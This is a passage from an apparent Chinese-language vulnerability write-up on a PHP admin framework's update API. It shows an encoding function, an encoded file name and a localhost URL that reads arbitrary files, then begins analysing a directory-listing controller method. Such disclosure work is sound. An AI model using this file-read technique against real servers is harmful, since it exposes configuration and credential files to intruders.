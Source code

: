   

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**2、任意文件读取**  

在根目录下创建文件1.txt，内容为**lalalaa**  

使用以下加密函数对1.txt文件名进行加密

```
`function encode($content)``{` `list($chars, $length) = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];` `for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);` `return $chars;``}`
```

  
得到数据加密数据**1d1a383c38  
**

访问下面链接即可读取到1.txt（读其他文件同理）  

http://127.0.0.1:8000/admin.html?s=admin/api.Update/get/encode/1d1a383c38

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**0x06 漏洞分析**  

  

![](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

**1、列目录****分析**  

### 函数node()

```


```
`public function node()``{` `$this->success('获取文件列表成功！', InstallService::instance()->getList(` `json_decode($this->request->post('rules', '[]', ''), true),` `json_decode($this->request->post('ignore', '[]', ''), true)` `));``}`
```




```

  
